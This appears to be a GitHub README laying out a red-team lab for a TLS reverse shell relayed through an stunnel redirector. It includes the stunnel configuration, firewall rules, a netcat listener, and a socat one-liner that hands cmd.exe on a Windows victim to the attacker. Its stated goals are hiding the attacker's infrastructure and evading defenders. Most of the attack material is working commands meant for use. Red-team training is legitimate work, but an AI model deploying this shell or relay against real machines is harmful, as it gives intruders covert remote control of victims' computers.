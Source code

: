 # TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective Redteam architecture to serve a reverse shell. Following the diagram:
<br>![Screenshot](RedTLS.png)<br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder for the blue teamers buddies :) <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate and that's no good since the scarcity of them. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted
### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file and move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.17 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Here install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnell4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.10

Here I had to install netcat:
```
sudo yum install nc
```
Then I configured the firewall to allow incoming connection from the redirector as follows:
```
sudo firewall-cmd --new-zone=redPar --permanent
sudo firewall-cmd --reload
sudo firewall-cmd --zone=redPar --add-source=10.0.2.5/32 --permanent
sudo firewall-cmd --zone=redPar --add-port=6666/tcp --permanent
sudo firewall-cmd --reload
```
Verify the configuration:
```
 sudo firewall-cmd --zone=redPar --list-all
  redPar (active)
    target: default
    icmp-block-inversion: no
    interfaces:
    sources: 10.0.2.5/32
    services:
    ports: 6666/tcp
    protocols:
    masquerade: no
    forward-ports:
    source-ports:
    icmp-blocks:
    rich rules:
```
Eventually to delete the zone issue:
```
sudo firewall-cmd --permanent --delete-zone=redPar
sudo firewall-cmd --reload
```
Finally lunch the listener:
```
sudo nc -lvp 6666
```

## Verify
On the Win victim machine lunch the socat TLS reverse shell as follows:
```
socat OPENSSL:192.168.1.7:443,verify=0 EXEC:'cmd.exe',pipes
```
The flow is the follows where (1) is the victim, (2) is the redirector and (3) is the attacker:
<br>![Screenshot](run.png)<br>

We can inspect the traffic usign Wireshark*:
<br>![Screenshot](ssl_hand.png)<br>

## Conclusion

This is a simple architecture that would require a little built effort, a trusted public IP and eventually a valid TLS certificate are necessarty to work better, even if the last one is not a strict requirement as long as we are able to bypass the certificate validation on the victim, like in this scenario. Of course if the redirector is compromised it can reveal the private IP address of the attacker but since this is not public one it can be easely changed. In a real engagment of course we have to hardening even the redirector leaving open on the public interface only the port 443, the managmente will be performend through the private interface. At least a host firewall is stongly recommended even on the redirector.

---
**NOTE**
###### *If your Lab (as mine) is created using a virtualizer (e.g. Virtualbox) remember that you can not itercept any traffics with a bridged mode network configuration on the host machine, since it bypass the host OS network stack entirely. Here I'm running Wireshark on the guest Parrot OS redirector*
---
